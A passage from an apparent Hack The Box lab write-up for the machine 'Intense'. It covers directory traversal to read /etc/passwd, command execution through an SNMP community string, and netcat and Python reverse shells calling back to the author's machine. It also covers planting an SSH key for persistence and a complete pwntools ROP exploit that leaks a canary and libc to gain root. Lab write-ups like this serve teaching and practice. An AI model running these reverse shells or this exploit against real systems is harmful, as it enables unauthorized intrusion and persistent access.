

The `logfile` property was susceptible to directory traversal, and through Burp I was able to download `/etc/passwd`.  There were only two users that had the ability to login: `root` and `user`. I noticed an unusual user named `debian_snmp`, so I decided to see what I could find using the SNMP service. \(Another nmap scan revealed that UDP port 161 was open, which is the default SNMP port!\)



While looking at the SNMP configuration files, I found a read/write community string of `SuP3RPrivCom90` in `snmpd.conf`.



ssh.conf - nothing useful



I also used the logdir property to enumerate the contents of `/home/user`.  This folder contained the file `user.txt`, so I knew I was on the right track.

### User.txt



This was interesting...it isn't very often that I am able to get the user flag through web requests.



I also checked for the presence of the `authorized_keys` file, since this is a great way to gain persistence.

### Enumerating SNMP

Next, I spend some time trying to find information on how to use that community string I had found to gain access to the machine.  I found a nice blog that showed me exactly what I needed to do to get a shell through SNMP.

* [https://digi.ninja/blog/snmp\_to\_shell.php](https://digi.ninja/blog/snmp_to_shell.php)

```text
snmpwalk:

snmpwalk -v 2c -c <community-string> host-with-snmpd.lan

Set SNMP tools to show OID human readable names instead of numbers:

apt-get install snmp-mibs-downloader download-mibs
echo "" > /etc/snmp/snmp.conf
```

installed snmp MIBs

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpwalk -v 2c -c SuP3RPrivCom90 10.10.10.195                                                   2 ⚙
SNMPv2-MIB::sysDescr.0 = STRING: Linux intense 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64
SNMPv2-MIB::sysObjectID.0 = OID: NET-SNMP-MIB::netSnmpAgentOIDs.10
DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (5436351) 15:06:03.51
SNMPv2-MIB::sysContact.0 = STRING: Me <user@intense.htb>
SNMPv2-MIB::sysName.0 = STRING: intense
SNMPv2-MIB::sysLocation.0 = STRING: Sitting on the Dock of the Bay
SNMPv2-MIB::sysServices.0 = INTEGER: 72
SNMPv2-MIB::sysORLastChange.0 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORID.1 = OID: SNMP-MPD-MIB::snmpMPDCompliance
SNMPv2-MIB::sysORID.2 = OID: SNMP-USER-BASED-SM-MIB::usmMIBCompliance
SNMPv2-MIB::sysORID.3 = OID: SNMP-FRAMEWORK-MIB::snmpFrameworkMIBCompliance
SNMPv2-MIB::sysORID.4 = OID: SNMPv2-MIB::snmpMIB
SNMPv2-MIB::sysORID.5 = OID: SNMP-VIEW-BASED-ACM-MIB::vacmBasicGroup
SNMPv2-MIB::sysORID.6 = OID: TCP-MIB::tcpMIB
SNMPv2-MIB::sysORID.7 = OID: IP-MIB::ip
SNMPv2-MIB::sysORID.8 = OID: UDP-MIB::udpMIB
SNMPv2-MIB::sysORID.9 = OID: SNMP-NOTIFICATION-MIB::snmpNotifyFullCompliance
SNMPv2-MIB::sysORID.10 = OID: NOTIFICATION-LOG-MIB::notificationLogMIB
SNMPv2-MIB::sysORDescr.1 = STRING: The MIB for Message Processing and Dispatching.
SNMPv2-MIB::sysORDescr.2 = STRING: The management information definitions for the SNMP User-based Security Model.
SNMPv2-MIB::sysORDescr.3 = STRING: The SNMP Management Architecture MIB.
SNMPv2-MIB::sysORDescr.4 = STRING: The MIB module for SNMPv2 entities
SNMPv2-MIB::sysORDescr.5 = STRING: View-based Access Control Model for SNMP.
SNMPv2-MIB::sysORDescr.6 = STRING: The MIB module for managing TCP implementations
SNMPv2-MIB::sysORDescr.7 = STRING: The MIB module for managing IP and ICMP implementations
SNMPv2-MIB::sysORDescr.8 = STRING: The MIB module for managing UDP implementations
SNMPv2-MIB::sysORDescr.9 = STRING: The MIB modules for managing SNMP Notification, plus filtering.
SNMPv2-MIB::sysORDescr.10 = STRING: The MIB module for logging SNMP Notifications.
```

Not much information gained from SNMP walk

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpwalk -v 2c -c SuP3RPrivCom90 10.10.10.195 nsExtendOutput1                             130 ⨯ 2 ⚙
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test2" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test2" = STRING: Hello, world!
Hi there
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test1" = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test2" = INTEGER: 2
NET-SNMP-EXTEND-MIB::nsExtendResult."test1" = INTEGER: 0
NET-SNMP-EXTEND-MIB::nsExtendResult."test2" = INTEGER: 8960
```

[https://medium.com/rangeforce/snmp-arbitrary-command-execution-19a6088c888e](https://medium.com/rangeforce/snmp-arbitrary-command-execution-19a6088c888e)

> snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c   host-with-snmpd.lan  'nsExtendStatus."command"' = createAndGo  'nsExtendCommand."command"' = /bin/echo  'nsExtendArgs."command"' = 'hello world'

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.10.10.195 'nsExtendStatus."command"' = createAndGo 'nsExtendCommand."command"' = '/bin/nc 10.10.15.100 55541 -e /bin/bash' 'nsExtendArgs."command"'    = 'hello world' 
NET-SNMP-EXTEND-MIB::nsExtendStatus."command" = INTEGER: createAndGo(4)
NET-SNMP-EXTEND-MIB::nsExtendCommand."command" = STRING: /bin/nc 10.10.15.100 55541 -e /bin/bash
NET-SNMP-EXTEND-MIB::nsExtendArgs."command" = STRING: hello world
```

created my command to send nc reverse shell

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpwalk -v 2c -c SuP3RPrivCom90 10.10.10.195 nsExtendOutput1                                   2 ⚙
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test2" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."command" = STRING: /bin/nc: invalid option -- 'e'
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test2" = STRING: Hello, world!
Hi there
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."command" = STRING: /bin/nc: invalid option -- 'e'
usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
          [-m minttl] [-O length] [-P proxy_username] [-p source_port]
          [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]
          [-X proxy_protocol] [-x proxy_address[:port]]           [destination] [port]
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test1" = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test2" = INTEGER: 2
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."command" = INTEGER: 5
NET-SNMP-EXTEND-MIB::nsExtendResult."test1" = INTEGER: 0
NET-SNMP-EXTEND-MIB::nsExtendResult."test2" = INTEGER: 8960
NET-SNMP-EXTEND-MIB::nsExtendResult."command" = INTEGER: 1
```

Unfortunately the version of `nc` on the victim's computer did not have `-e` functionality, so I wasn't able to get it to send me a reverse shell.

## Getting a shell

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpwalk -v 2c -c SuP3RPrivCom90 10.10.10.195 nsExtendOutput1                                   2 ⚙
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test2" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."command" = STRING:   File "<string>", line 1
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test2" = STRING: Hello, world!
Hi there
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."command" = STRING:   File "<string>", line 1
    "import
          ^
SyntaxError: EOL while scanning string literal
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test1" = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test2" = INTEGER: 2
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."command" = INTEGER: 4
NET-SNMP-EXTEND-MIB::nsExtendResult."test1" = INTEGER: 0
NET-SNMP-EXTEND-MIB::nsExtendResult."test2" = INTEGER: 8960
NET-SNMP-EXTEND-MIB::nsExtendResult."command" = INTEGER: 1

┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpwalk -v 2c -c SuP3RPrivCom90 10.10.10.195 nsExtendOutput1                                   2 ⚙
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test2" = STRING: Hello, world!
Timeout: No Response from 10.10.10.195
```

I tried sending a reverse shell, but got an End-of-Line error

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.10.10.195 'nsExtendStatus."command"' = createAndGo 'nsExtendCommand."command"' = '/usr/bin/python3' 'nsExtendArgs."command"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.15.100\",55541));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"' 
NET-SNMP-EXTEND-MIB::nsExtendStatus."command" = INTEGER: createAndGo(4)
NET-SNMP-EXTEND-MIB::nsExtendCommand."command" = STRING: /usr/bin/python3
NET-SNMP-EXTEND-MIB::nsExtendArgs."command" = STRING: -c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.15.100\",55541));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"
```

connected to my

after trying a few things realized that some of the internal quotes needed to be escaped for it to run properly

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ nc -lvnp 55541                              
listening on [any] 55541 ...
connect to [10.10.15.100] from (UNKNOWN) [10.10.10.195] 60688
$ id && hostname
id && hostname
uid=111(Debian-snmp) gid=113(Debian-snmp) groups=113(Debian-snmp)
intense
```

got a shell back on my waiting nc listener


There was a strange problem I encountered with this SNMP shell...if I lost my shell I would lose the ability to connect back to this box. Not sure why or how, but it took two resets of my connection pack and my local machine to get it to work again. I thought I had lost all connection to HTB, but after it happened again a few days later I tried pinging a known active box \(I think I had accidentally tried pinging a box that is inactive, leading me to believe I lost my whole connection\).  After it happened again later I reset the machine itself and this fixed it...



## Path to Power \(Gaining Administrator Access\)

### Enumeration as `Debian-snmp`

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ nc -lvnp 55541
listening on [any] 55541 ...
connect to [10.10.15.100] from (UNKNOWN) [10.10.10.195] 57960
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
Debian-snmp@intense:/$ export TERM=xterm-256color
export TERM=xterm-256color
Debian-snmp@intense:/$ ls
ls
bin    dev   initrd.img      lib64       mnt   root  snap  tmp  vmlinuz
boot   etc   initrd.img.old  lost+found  opt   run   srv   usr  vmlinuz.old
cdrom  home  lib             media       proc  sbin  sys   var
Debian-snmp@intense:/$ id && hostname
id && hostname
uid=111(Debian-snmp) gid=113(Debian-snmp) groups=113(Debian-snmp)
intense
Debian-snmp@intense:/$ sudo -l
sudo -l
[sudo] password for Debian-snmp: 

Debian-snmp@intense:/$ cd home
cd home
Debian-snmp@intense:/home$ ls
ls
user
Debian-snmp@intense:/home$ cd user
cd user
Debian-snmp@intense:/home/user$ ls -la
ls -la
total 76
drwxr-xr-x 5 user user  4096 Jun 29 06:30 .
drwxr-xr-x 3 root root  4096 Nov 16  2019 ..
lrwxrwxrwx 1 root root     9 Nov 23  2019 .bash_history -> /dev/null
-rw-r--r-- 1 user user   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 user user  3771 Apr  4  2018 .bashrc
drwx------ 2 user user  4096 Nov 16  2019 .cache
drwx------ 3 user user  4096 Nov 16  2019 .gnupg
-rwxrwxr-x 1 user user 13152 Nov 16  2019 note_server
-rw-r--r-- 1 user user  3928 Nov 16  2019 note_server.c
-rw-r--r-- 1 user user   807 Apr  4  2018 .profile
-rw-r--r-- 1 root root    75 Nov 23  2019 .selected_editor
drwxr-xr-x 2 user user  4096 Jun 29 09:31 .ssh
-rw-r--r-- 1 user user     0 Nov 16  2019 .sudo_as_admin_successful
-r--r--r-- 1 root root    33 Nov 16  2019 user.txt
-rw------- 1 root root 12427 Nov 23  2019 .viminfo
Debian-snmp@intense:/home/user$ python3 -m http.server 8099
python3 -m http.server 8099
Serving HTTP on 0.0.0.0 port 8099 (http://0.0.0.0:8099/) ...
10.10.15.100 - - [07/Nov/2020 18:25:43] "GET /note_server HTTP/1.1" 200 -
10.10.15.100 - - [07/Nov/2020 18:25:47] "GET /note_server.c HTTP/1.1" 200 -
10.10.15.100 - - [07/Nov/2020 18:26:00] "GET /user.txt HTTP/1.1" 200 -
```

Downloaded a few interesting files from `user`'s home folder...then lost my shell again when I cancelled the http server \(right after I realized I should have put my ssh key there!\)

TODO: Where is the note\_server.c code?

```text

```

Analysis of the note\_server.c code showed me that the program was looking for a connection to `127.0.0.1` on port 5001.  

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.10.10.195 'nsExtendStatus."command"' = createAndGo 'nsExtendCommand."command"' = '/bin/bash' 'nsExtendArgs."command"' = "-c \"/bin/echo ${ssh_key} >> ~/.ssh/authorized_keys\""
NET-SNMP-EXTEND-MIB::nsExtendStatus."command" = INTEGER: createAndGo(4)
NET-SNMP-EXTEND-MIB::nsExtendCommand."command" = STRING: /bin/bash
NET-SNMP-EXTEND-MIB::nsExtendArgs."command" = STRING: -c "/bin/echo ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPbT4GbSUckWcD775fh2EvAIst9754Yn0+88VlmfbV9qXiCEUeCrHXiEFc1KYDYnx/3CEUgu8gby04mHtBdP6n8= zweilos@kali >> ~/.ssh/authorized_keys"
```

I tried echoing my ssh key to `user` but got a permission denied error, so I tried to see if I could do the same for the `Debian-snmp` user, and got partial success

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ ssh -i intense.key Debian-snmp@10.10.10.195                                                   255 ⨯
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Nov  7 18:50:59 UTC 2020

  System load:  0.05              Processes:             172
  Usage of /:   6.2% of 39.12GB   Users logged in:       0
  Memory usage: 7%                IP address for ens160: 10.10.10.195
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

181 packages can be updated.
130 updates are security updates.


Last login: Tue Jun 30 09:34:08 2020 from 10.10.14.2
Connection to 10.10.10.195 closed.

┌──(zweilos㉿kali)-[~/htb/intense]
└─$ ssh -i intense.key Debian-snmp@10.10.10.195 "bash --noprofile --norc"                           1 ⨯

┌──(zweilos㉿kali)-[~/htb/intense]
└─$ ssh -i intense.key Debian-snmp@10.10.10.195 "/bin/sh"
```

I was successful in copying my key, but I wasn't able to login and get a shell. I tried a few bypass methods, but it seemed as if they had it locked down.

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ ssh -N -L 5001:127.0.0.1:5001 Debian-snmp@10.10.10.195 -i intense.key
```

Even though I couldn't login, I was still able to use SSH to create a tunnel to the machine without running any commands.  This came in handy later when I wanted to connect to a port that was only open on the local host.

```text
Debian-snmp@intense:/home/user$ ps -u root
ps -u root
   PID TTY          TIME CMD
     1 ?        00:00:04 systemd
     2 ?        00:00:00 kthreadd
    
...snipped...

  1074 ?        00:00:00 note_server
  1123 ?        00:00:03 snapd
  1125 ?        00:00:00 networkd-dispat
  1137 ?        00:00:00 cron
  1143 ?        00:00:00 irqbalance
  1145 ?        00:00:00 accounts-daemon
  1147 ?        00:00:00 systemd-logind
  1234 ?        00:00:00 unattended-upgr
  1272 tty1     00:00:00 agetty
  1273 ?        00:00:00 polkitd
  1280 ?        00:00:00 nginx
  1414 ?        00:00:00 sshd
  1943 ?        00:00:00 kworker/u256:2
  2483 ?        00:00:00 kworker/0:0
  2713 ?        00:00:00 kworker/u256:1
  3478 ?        00:00:00 kworker/1:2
```

note-server was running as root

## Binary Exploitation


note: had to get help with this, not good with binary exploitation - thank you to ippsec for his amazing walkthrough videos; also the official write-up for the final working script. For some reason I wasnt able to get gdb's breakpoints to work. It kept giving me an error when running after setting a break point on the write@plt address


```text
0x0000000000000d27 <+541>:   callq  0x900 <write@plt>
   0x0000000000000d2c <+546>:   nop
   0x0000000000000d2d <+547>:   mov    -0x8(%rbp),%rax
   0x0000000000000d31 <+551>:   xor    %fs:0x28,%rax
   0x0000000000000d3a <+560>:   je     0xd48 <handle_client+574>
   0x0000000000000d3c <+562>:   jmp    0xd43 <handle_client+569>
   0x0000000000000d3e <+564>:   jmpq   0xb33 <handle_client+41>
   0x0000000000000d43 <+569>:   callq  0x910 <__stack_chk_fail@plt>
   0x0000000000000d48 <+574>:   leaveq 
   0x0000000000000d49 <+575>:   retq   
End of assembler dump.
(gdb) b *0x0000000000000d27
Breakpoint 2 at 0xd27
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/zweilos/htb/intense/noteserver 
Warning:
Cannot insert breakpoint 2.
Cannot access memory at address 0xd27
```

kept getting errors when trying to set break points in gdb. I got frustrated with this and moved on to other machines until the box retired and I was able to watch Ippsec's video, and in the end used the exploit from the official write-up.

`gdb ./note_server -ex 'set follow-fork-mode child' -ex 'break 82' -ex 'run'`

Got address of /xf54

I did learn something very useful for the future - compiling with `-ggdb` will compile with source code intact - very useful for analysis and debugging

Wrote a few different Python scripts trying to exploit this, but in the end I needed to look at the official writeup to find out what I had been doing wrong.

```python
from pwn import *
context.binary = './note_server.remote'
e = context.binary
libc = ELF('./libc_remote.so', checksec=False)
p = remote("127.0.0.1", 5001)

def write(size, data):
    p.send("\x01")
    p.send(p8(size))
    p.send(data)

def copy(offset, size):
    p.send("\x02")
    p.send(p16(offset))
    p.send(p8(size))

def read():
    p.send("\x03")

def doRop(rop):
    payload = b"A" * 8 + p64(canary) + b"A" * 8 + bytes(rop)
    write(0xff, payload + b'A' * (0xff - len(payload)))
    for i in range(3):
        write(0xff, "A" * 0xff)
    write(0x04, "A" * 0x4)
    copy(0, len(payload))
    read()
    p.recv(1024 + len(payload))

for i in range(4):
    write(0xff, "A" * 0xff)
write(0x04, "A" * 0x4)

copy(1024, 0xff)
read()

p.recv(1024)

leak = u64(p.recv(8)) # Ignore stack address

canary = u64(p.recv(8))
log.success(f"Leaked canary: {hex(canary)}")

p.recv(8) # Ignore stack address

leak = u64(p.recv(8))
log.success(f"PIE leak : {hex(leak)}")
e.address = leak - 0xf54 # Calculate PIE base
p = remote("127.0.0.1", 5001) # Reconnect

rop = ROP(e)
rop.call(e.plt['write'], [4, e.got['read']])

doRop(rop)
leak = u64(p.recv(8))
log.success(f"Libc leak : {hex(leak)}")
libc.address = leak - libc.sym['read']

p = remote("127.0.0.1", 5001) # Reconnect
rop = ROP(libc)
binsh = next(libc.search(b"/bin/sh\x00"))
rop.dup2(4, 0)
rop.dup2(4, 1)
rop.execv(binsh, 0)
doRop(rop)

p.interactive()
```

Copied and cleaned up the code from the official writeup, then ran it TODO: explain what it does

### Root.txt

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ python3 ./pwn-note_server2.py
[*] '/home/zweilos/htb/intense/note_server'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 127.0.0.1 on port 5001: Done
[+] Leaked canary: 0x9b61993eb04bed00
[+] PIE leak : 0x5608ae82cf54
[+] Opening connection to 127.0.0.1 on port 5001: Done
[*] Loaded 14 cached gadgets for './note_server'
[+] Libc leak : 0x7fa1096c5070
[+] Opening connection to 127.0.0.1 on port 5001: Done
[*] Loading gadgets for '/home/zweilos/htb/intense/libc.so.6'
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
$ hostname
intense
$ cat /root/root.txt
b3e42063bf6316157da49cbfae5e21d7
```

sdg


Thanks to [`sokafr`](https://app.hackthebox.eu/users/19014) for something interesting or useful about this machine.

If you like this content and would like to see more, please consider supporting me through Patreon at [https://www.patreon.com/zweilosec](https://www.patreon.com/zweilosec).

